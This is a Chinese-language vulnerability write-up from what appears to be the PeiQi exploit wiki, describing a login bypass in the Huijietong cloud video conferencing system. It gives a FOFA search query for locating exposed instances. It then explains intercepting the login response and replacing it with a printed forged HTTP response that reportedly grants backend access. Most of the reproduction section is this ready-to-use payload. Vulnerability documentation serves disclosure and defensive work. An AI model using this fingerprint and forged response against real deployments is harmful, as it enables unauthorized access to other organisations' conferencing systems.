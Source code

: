 ```yaml
---
title: 会捷通云视讯 登录绕过漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 中创视迅
---
```


# 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](/img/20210924015243219889.png)

输入任意账号密码抓包

![](/img/20210924015245225258.png)

修改返回包为如下后放包则成功绕过登录

```
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```

![](/img/20210924015246717484.png)